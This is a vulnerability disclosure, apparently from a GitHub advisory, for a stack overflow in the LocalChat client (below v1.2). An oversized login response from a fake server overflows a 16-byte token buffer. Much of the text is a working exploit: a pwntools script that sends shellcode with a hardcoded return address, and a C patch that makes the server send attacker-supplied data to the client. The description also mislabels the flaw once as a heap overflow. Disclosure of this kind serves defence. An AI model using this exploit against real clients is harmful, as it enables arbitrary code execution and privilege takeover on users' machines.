



# LocalChat Less than version 1.2 Stack Overflow Vulnerability

## SUMMARY

LocalChat is a tool for TCP and UDP communication. There is a stack overflow vulnerability in the client login feature, which can be triggered when the client receives a maliciously crafted response from a fake server.

This vulnerability can lead to arbitrary code execution, arbitrary command execution, acquisition of client machine privileges, and leakage of sensitive information.

## Product

- LocalChat
- Less than v1.2
- https://github.com/CStack90/LocalChat/releases/tag/v1.2


## DETAIL


- LocalChat/client/main.c
- LocalChat/client/commands.c


LocalChat/client/commands.c:login

After the client sends a login request, the server responds, and the client directly copies the response content into the token.


The login is called in commande_detection, and token is passed as a parameter to commande_detection.


The token from commande_detection is passed as a parameter to TCP_connect, which has a size of 16 bytes.




However, the client can receive data longer than 16 bytes, causing a stack overflow. It can be seen that up to 128 bytes can be copied.




This leads to a heap overflow that can overwrite the program's return address and hijack the program's control flow.

## Attack Process

The program operates in a loop waiting for user command inputs.

Users must perform a login operation first. Exiting the loop requires executing an exit operation, meeting the conditions needed for a stack overflow.





Original return address


Return address is controllable


This client program also uses the system function, allowing this stack overflow to be combined with it to execute a large number of threatening commands, creating severe harm.


Attack script (needs to be used with modified server binary):

```python
from pwn import *
from LibcSearcher import *
import sys

context(os='linux', arch='amd64', log_level='debug')

sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda x,y:p.sendafter(x,y)
sla=lambda x,y:p.sendlineafter(x,y)
rc=lambda x:p.recv(x)
rl=lambda :p.recvline()
ru=lambda x:p.recvuntil(x)
ita=lambda :p.interactive()
slc=lambda :asm(shellcraft.sh())
uu64=lambda x:u64(x.ljust(8,b'\0'))
uu32=lambda x:u32(x.ljust(4,b'\0'))
getaddr=lambda :uu64(rc(6).ljust(8,b'\0'))
getbinsh=lambda :libc.search(b'/bin/sh').__next__()

def print_hex(bin_code):
    hex_string_with_spaces = ' '.join(f'{byte:02x}' for byte in bin_code)
    print(hex_string_with_spaces)
	
def gdba(x=''):
	if len(sys.argv) > 1:
		if sys.argv[1] == 'n':
			return
	if type(p)==pwnlib.tubes.remote.remote:
		return
	elif type(p)==pwnlib.tubes.process.process:
		# gdb.attach(p,x)
		gdb.attach(proc.pidof(p)[0], x)
		pause()
def getProcess():
	if len(sys.argv) > 1:
		if sys.argv[1] == 'r':
			return remote('127.0.0.1','2059')
	return process('./output/server')

p=getProcess()

# payload = b'a'*0x18+p64(0x000000000040193A)
retaddr = 0x00007ffff7d99ec0
shellcode = asm(pwnlib.shellcraft.amd64.linux.write(1, 'rsp', 0x100))
payload = shellcode.ljust(0x18,b'a') + p64(retaddr)[:6]

# payload = b'a'*0x8
# payload = b'a'*127
while 1:
    sla(b'Input fakedata:\n',payload)

ita()

```

Server code modification:

```c
void *login(void* args){
    /* Request informations */
    struct request_processing *parent_info = args;

    int separator_pos;//Index of the separator
    char username[MAX_USER_USERNAME_LENGTH], password[MAX_USER_PASSWORD_LENGTH];//Username and password got from request
    char token[TOKEN_SIZE];//Token generated

    char data[REQUEST_DATA_MAX_LENGTH];
    strcpy(data,(*parent_info).request.data);//Put request data in data

    printf("\t[Login-thread] - Received data (length : %ld): %s\n", strlen(data), data); //Log
    + puts("Input fakedata:");
    + char payload[256];
    + scanf("%s", payload);
    + struct request fake_request;
    + fake_request.type = 0; //There is an error
    + strcpy(fake_request.data,payload);
    + sendto ((*parent_info).sock, (void *) &fake_request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
    /* parse data to username and password */
    //Get pos of separator
    for (separator_pos = 0; separator_pos < strlen(data) && data[separator_pos] != USER_PASSWORD_REQUEST_SEPARATOR; separator_pos++);
    
    //Check string param length
    if (separator_pos >= MAX_USER_USERNAME_LENGTH || strlen(data)-separator_pos > MAX_USER_PASSWORD_LENGTH){
        (*parent_info).request.type = -1; //There is an error
        strcpy((*parent_info).request.data,"Username or password are too long");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
        pthread_exit(NULL);
    } else if (separator_pos == 0 || separator_pos == strlen(data) || separator_pos == strlen(data)-1){
        (*parent_info).request.type = -1; //There is an error
        strcpy((*parent_info).request.data,"Username or password are empty");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
        pthread_exit(NULL);
    }

    /* Copy username and password from data */
    strncpy(username,data,separator_pos);
    username[separator_pos]='\0';
    strncpy(password,&data[separator_pos]+1,strlen(data)-separator_pos);

    if(findNickname(username,password,ACCOUNT_FILE,1) != 1){
        (*parent_info).request.type = -1; 
        strcpy((*parent_info).request.data,"Wrong username/password");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
    }else{
        /* Adding user to the shared memory */
        switch (add_user((*parent_info).shared_memory,username,&(*token))){
        case 0://All went right
            (*parent_info).request.type = 0;
            strcpy((*parent_info).request.data,token);
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        case 1://User already connected
            (*parent_info).request.type = -1; 
            strcpy((*parent_info).request.data,"User already connected");
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        default://Shared memory full of connected user
            (*parent_info).request.type = -1; 
            strcpy((*parent_info).request.data,"Maximum number of simultaneous connections reached");
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        }
    }
    pthread_exit(NULL);
}
```